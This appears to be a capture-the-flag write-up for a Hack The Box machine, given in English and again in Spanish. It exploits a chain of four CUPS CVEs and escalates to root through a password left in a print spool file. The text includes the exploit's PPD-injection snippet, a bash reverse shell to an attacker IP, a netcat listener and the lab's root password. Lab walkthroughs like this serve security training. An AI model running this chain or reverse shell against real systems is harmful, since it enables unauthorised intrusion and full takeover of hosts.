


Exploitation Summary
Exploitation process: The target machine was running an OpenPrinting CUPS service vulnerable to a chain of four CVEs (CVE-2024-47176, CVE-2024-47076, CVE-2024-47175, and CVE-2024-47177) that, when exploited together, allow for remote code execution. The attack begins by forcing the CUPS server to connect to a malicious IPP server under attacker control through an unauthenticated UDP packet.
Once the connection is established, malicious PPD (PostScript Printer Description) attributes are injected, exploiting improper validation in libcupsfilters and libppd. When a print job is triggered, the foomatic-rip filter processes the malicious PPD file, leading to command injection and execution of an arbitrary reverse shell payload. Initial access was obtained as the lp user.
Privilege escalation was achieved through enumeration of the CUPS spool directory at /var/spool/cups, where print job data files are stored. By reading job data files following CUPS naming conventions, root credentials were discovered in plaintext within a previous print job, allowing direct escalation to root access via su.
Technologies/Exploits: OpenPrinting CUPS vulnerability chain (CVE-2024-47176, CVE-2024-47076, CVE-2024-47175, CVE-2024-47177), IPP protocol exploitation, PPD file injection, foomatic-rip command injection, CUPS spool directory information disclosure.
Initial Reconnaissance
I start with an nmap scan to identify open ports and services running on the target machine:

The scan reveals port 631 is open, which is the standard port for the Internet Printing Protocol (IPP). Accessing the web interface on this port reveals information about the CUPS service:

The web interface displays the exact version of the CUPS service. This is valuable information as it allows me to search for version-specific vulnerabilities.
Vulnerability Research - CUPS Exploit Chain
After identifying the CUPS version, I search for known vulnerabilities affecting this version. I discover a critical security advisory in the official OpenPrinting repository: https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8
The advisory includes a Python proof-of-concept, but after testing it without success, I find an alternative exploit on GitHub: https://github.com/0xCZR1/PoC-Cups-RCE-CVE-exploit-chain
Understanding the Vulnerability Chain
This exploit leverages a chain of four CVEs that, when combined, allow for remote code execution on vulnerable CUPS installations:
- CVE-2024-47176: Unrestricted packet processing on UDP port 631, allowing unauthenticated remote attackers to force CUPS to contact an attacker's IPP server.
- CVE-2024-47076: Improper validation of IPP attributes in
libcupsfilters, which allows attacker-controlled data to be processed as valid.
- CVE-2024-47175: Injection of malicious data into PPD files via
libppd, allowing for command execution during print jobs.
- CVE-2024-47177: Command injection via
foomatic-rip, allowing attackers to execute arbitrary commands on the system.
Attack Flow
The exploitation process works as follows:
- The PoC script sets up a Python-based IPP server that simulates a printer using ipp-server on the attacker's machine
- Using CVE-2024-47176, a UDP packet is sent to the victim's CUPS server on port 631, forcing it to connect to the attacker's fake printer server
- When the victim machine connects to request printer attributes, the malicious payload is delivered through IPP attributes
- The payload exploits CVE-2024-47076 (improper validation), CVE-2024-47175 (PPD injection), and CVE-2024-47177 (foomatic-rip command injection) to achieve code execution
- A print job request is sent to trigger the malicious PPD file processing and execute the injected command
The malicious attributes in the exploit look like this:
attributes = super().printer_list_attributes()
attributes.update({
(SectionEnum.printer, b'printer-more-info', TagEnum.uri): [
f'"\n*FoomaticRIPCommandLine: "{self.command}"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'.encode()
]
})
This code injects the command into the FoomaticRIPCommandLine directive, which will be executed when foomatic-rip processes the print job.
Initial Access - Exploiting the CUPS Vulnerability Chain
I prepare the exploit by specifying my attacking IP, the target IP, and the command I want to execute (a curl request to test connectivity):
python3 cups-rce.py 10.10.16.6 10.10.11.40 "curl 10.10.16.6:8000"
The script starts the IPP server and sends the initial UDP packet:
Starting IPP server at ('10.10.16.6', 12349)
Sending UDP packet to 10.10.11.40:631...
Packet content:
2 3 http://10.10.16.6:12349/printers/EVILCUPS "Pwned Location" "Pwned Printer" "HP LaserJet 1020"
This UDP packet exploits CVE-2024-47176 to force the victim's CUPS service to connect to my malicious IPP server. When the victim connects to retrieve printer attributes, the payload containing the injected command is delivered.
Triggering Code Execution
After the victim server connects to my fake printer, I need to trigger a print job to execute the injected command. I use a separate script to send a print job request. This causes the CUPS service to process the malicious PPD file through foomatic-rip, triggering the command injection.
For a proper reverse shell, I modify the command to:
nohup bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"
The nohup command is crucial here because the printer created by the exploit is automatically deleted after a short time, which would normally kill the shell. By using nohup, the reverse shell is started as a background process that persists even after the printer is removed. More information about nohup can be found at https://www.digitalocean.com/community/tutorials/nohup-command-in-linux
I set up a netcat listener to catch the reverse shell:
sudo nc -lvnp 443
Once the print job is triggered, I receive a reverse shell connection as the lp user (the CUPS service user). While enumerating the /home directory, I notice there's another user named htb, and I can access their home directory where I retrieve the user flag.
Privilege Escalation - CUPS Spool Directory Enumeration
After gaining initial access as the lp user, I search for typical privilege escalation vectors but find nothing immediately useful. I decide to investigate the CUPS service itself and where it might store sensitive information.
Understanding CUPS Job Storage
Through research on the CUPS architecture, I discover that CUPS stores print job files in a spool directory, typically located at /var/spool/cups. According to the official CUPS documentation at https://www.cups.org/doc/spec-design.html:
"The scheduler stores job files in a spool directory, typically /var/spool/cups. Two types of files will be found in the spool directory: control files starting with the letter 'c' ('c00001', 'c99999', 'c100000', etc.) and data files starting with the letter 'd' ('d00001-001', 'd99999-001', 'd100000-001', etc.) Control files are IPP messages based on the original IPP Print-Job or Create-Job messages, while data files are the original print files that were submitted for printing."
I navigate to /var/spool/cups, but attempting to list files returns a permission denied error. However, knowing the naming convention for these files from the documentation, I can still try to read specific files directly.
Discovering Root Credentials
Following the documented naming pattern, I attempt to read the first data file:
cat d00001-001
This successfully displays the contents of a previous print job, and within this data file, I discover plaintext root credentials: Br3@k-G!@ss-r00t-evilcups
It appears that someone printed a document containing the root password, and since CUPS stores all print job data in the spool directory, this sensitive information is now accessible to anyone who can read these files.
Escalating to Root
With the root credentials in hand, I use the su command to switch to the root user:
su root
After entering the discovered password, I successfully gain root access:
root@evilcups:/var/spool/cups# whoami
root
I can now retrieve the root flag and complete the machine:
cat /root/root.txt
This privilege escalation highlights an important security consideration: print job data can contain sensitive information, and improper access controls on the CUPS spool directory can lead to information disclosure and privilege escalation.
Resumen de Explotación
Resumen del proceso: La máquina objetivo ejecutaba un servicio OpenPrinting CUPS vulnerable a una cadena de cuatro CVEs (CVE-2024-47176, CVE-2024-47076, CVE-2024-47175 y CVE-2024-47177) que, al explotarse juntos, permiten la ejecución remota de código. El ataque comienza forzando al servidor CUPS a conectarse a un servidor IPP malicioso bajo control del atacante mediante un paquete UDP no autenticado.
Una vez establecida la conexión, se inyectan atributos PPD (PostScript Printer Description) maliciosos, explotando la validación inadecuada en libcupsfilters y libppd. Cuando se dispara un trabajo de impresión, el filtro foomatic-rip procesa el archivo PPD malicioso, llevando a una inyección de comandos y ejecución de un payload de reverse shell arbitrario. El acceso inicial se obtuvo como usuario lp.
La escalada de privilegios se logró mediante enumeración del directorio spool de CUPS en /var/spool/cups, donde se almacenan archivos de datos de trabajos de impresión. Leyendo archivos de datos de trabajos siguiendo las convenciones de nomenclatura de CUPS, se descubrieron credenciales de root en texto plano dentro de un trabajo de impresión anterior, permitiendo escalada directa a acceso root mediante su.
Tecnologías/Exploits: Cadena de vulnerabilidades de OpenPrinting CUPS (CVE-2024-47176, CVE-2024-47076, CVE-2024-47175, CVE-2024-47177), explotación del protocolo IPP, inyección de archivos PPD, inyección de comandos en foomatic-rip, divulgación de información en directorio spool de CUPS.
Reconocimiento Inicial
Comienzo con un escaneo de nmap para identificar puertos abiertos y servicios ejecutándose en la máquina objetivo:
El escaneo revela que el puerto 631 está abierto, que es el puerto estándar para el Protocolo de Impresión por Internet (IPP). Accediendo a la interfaz web en este puerto se revela información sobre el servicio CUPS:
La interfaz web muestra la versión exacta del servicio CUPS. Esta es información valiosa ya que me permite buscar vulnerabilidades específicas de la versión.
Investigación de Vulnerabilidades - Cadena de Exploits de CUPS
Tras identificar la versión de CUPS, busco vulnerabilidades conocidas que afecten a esta versión. Descubro un advisory crítico de seguridad en el repositorio oficial de OpenPrinting: https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8
El advisory incluye una prueba de concepto en Python, pero tras probarla sin éxito, encuentro un exploit alternativo en GitHub: https://github.com/0xCZR1/PoC-Cups-RCE-CVE-exploit-chain
Entendiendo la Cadena de Vulnerabilidades
Este exploit aprovecha una cadena de cuatro CVEs que, cuando se combinan, permiten la ejecución remota de código en instalaciones de CUPS vulnerables:
- CVE-2024-47176: Procesamiento de paquetes sin restricciones en el puerto UDP 631, permitiendo a atacantes remotos no autenticados forzar a CUPS a contactar con el servidor IPP del atacante.
- CVE-2024-47076: Validación inadecuada de atributos IPP en
libcupsfilters, que permite que datos controlados por el atacante sean procesados como válidos.
- CVE-2024-47175: Inyección de datos maliciosos en archivos PPD mediante
libppd, permitiendo la ejecución de comandos durante trabajos de impresión.
- CVE-2024-47177: Inyección de comandos mediante
foomatic-rip, permitiendo a atacantes ejecutar comandos arbitrarios en el sistema.
Flujo del Ataque
El proceso de explotación funciona de la siguiente manera:
- El script PoC configura un servidor IPP basado en Python que simula una impresora usando ipp-server en la máquina del atacante
- Usando CVE-2024-47176, se envía un paquete UDP al servidor CUPS de la víctima en el puerto 631, forzándolo a conectarse al servidor de impresora falso del atacante
- Cuando la máquina víctima se conecta para solicitar atributos de la impresora, el payload malicioso se entrega mediante atributos IPP
- El payload explota CVE-2024-47076 (validación inadecuada), CVE-2024-47175 (inyección PPD) y CVE-2024-47177 (inyección de comandos en foomatic-rip) para lograr ejecución de código
- Se envía una solicitud de trabajo de impresión para disparar el procesamiento del archivo PPD malicioso y ejecutar el comando inyectado
Los atributos maliciosos en el exploit se ven así:
attributes = super().printer_list_attributes()
attributes.update({
(SectionEnum.printer, b'printer-more-info', TagEnum.uri): [
f'"\n*FoomaticRIPCommandLine: "{self.command}"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'.encode()
]
})
Este código inyecta el comando en la directiva FoomaticRIPCommandLine, que será ejecutada cuando foomatic-rip procese el trabajo de impresión.
Acceso Inicial - Explotando la Cadena de Vulnerabilidades de CUPS
Preparo el exploit especificando mi IP de ataque, la IP objetivo y el comando que quiero ejecutar (una petición curl para probar conectividad):
python3 cups-rce.py 10.10.16.6 10.10.11.40 "curl 10.10.16.6:8000"
El script arranca el servidor IPP y envía el paquete UDP inicial:
Starting IPP server at ('10.10.16.6', 12349)
Sending UDP packet to 10.10.11.40:631...
Packet content:
2 3 http://10.10.16.6:12349/printers/EVILCUPS "Pwned Location" "Pwned Printer" "HP LaserJet 1020"
Este paquete UDP explota CVE-2024-47176 para forzar al servicio CUPS de la víctima a conectarse a mi servidor IPP malicioso. Cuando la víctima se conecta para recuperar atributos de la impresora, se entrega el payload que contiene el comando inyectado.
Disparando la Ejecución de Código
Después de que el servidor víctima se conecta a mi impresora falsa, necesito disparar un trabajo de impresión para ejecutar el comando inyectado. Uso un script separado para enviar una solicitud de trabajo de impresión. Esto hace que el servicio CUPS procese el archivo PPD malicioso mediante foomatic-rip, disparando la inyección de comandos.
Para una reverse shell apropiada, modifico el comando a:
nohup bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"
El comando nohup es crucial aquí porque la impresora creada por el exploit se elimina automáticamente después de poco tiempo, lo que normalmente mataría la shell. Al usar nohup, la reverse shell se inicia como un proceso en background que persiste incluso después de que la impresora se elimine. Más información sobre nohup se puede encontrar en https://www.digitalocean.com/community/tutorials/nohup-command-in-linux
Configuro un listener de netcat para capturar la reverse shell:
sudo nc -lvnp 443
Una vez disparado el trabajo de impresión, recibo una conexión de reverse shell como usuario lp (el usuario del servicio CUPS). Al enumerar el directorio /home, noto que hay otro usuario llamado htb, y puedo acceder a su directorio home donde recupero la flag de usuario.
Escalada de Privilegios - Enumeración del Directorio Spool de CUPS
Tras ganar acceso inicial como usuario lp, busco vectores típicos de escalada de privilegios pero no encuentro nada inmediatamente útil. Decido investigar el propio servicio CUPS y dónde podría almacenar información sensible.
Entendiendo el Almacenamiento de Trabajos de CUPS
Mediante investigación sobre la arquitectura de CUPS, descubro que CUPS almacena archivos de trabajos de impresión en un directorio spool, típicamente localizado en /var/spool/cups. Según la documentación oficial de CUPS en https://www.cups.org/doc/spec-design.html:
"El planificador almacena archivos de trabajos en un directorio spool, típicamente /var/spool/cups. Se encontrarán dos tipos de archivos en el directorio spool: archivos de control que comienzan con la letra 'c' ('c00001', 'c99999', 'c100000', etc.) y archivos de datos que comienzan con la letra 'd' ('d00001-001', 'd99999-001', 'd100000-001', etc.) Los archivos de control son mensajes IPP basados en los mensajes originales IPP Print-Job o Create-Job, mientras que los archivos de datos son los archivos de impresión originales que fueron enviados para imprimir."
Navego a /var/spool/cups, pero intentar listar archivos devuelve un error de permiso denegado. Sin embargo, conociendo la convención de nomenclatura para estos archivos de la documentación, aún puedo intentar leer archivos específicos directamente.
Descubriendo las Credenciales de Root
Siguiendo el patrón de nomenclatura documentado, intento leer el primer archivo de datos:
cat d00001-001
Esto muestra exitosamente el contenido de un trabajo de impresión anterior, y dentro de este archivo de datos, descubro credenciales de root en texto plano: Br3@k-G!@ss-r00t-evilcups
Parece que alguien imprimió un documento conteniendo la contraseña de root, y dado que CUPS almacena todos los datos de trabajos de impresión en el directorio spool, esta información sensible ahora es accesible para cualquiera que pueda leer estos archivos.
Escalando a Root
Con las credenciales de root en mano, uso el comando su para cambiar al usuario root:
su root
Tras introducir la contraseña descubierta, obtengo exitosamente acceso root:
root@evilcups:/var/spool/cups# whoami
root
Ahora puedo recuperar la flag de root y completar la máquina:
cat /root/root.txt
Esta escalada de privilegios resalta una consideración de seguridad importante: los datos de trabajos de impresión pueden contener información sensible, y controles de acceso inadecuados en el directorio spool de CUPS pueden llevar a divulgación de información y escalada de privilegios.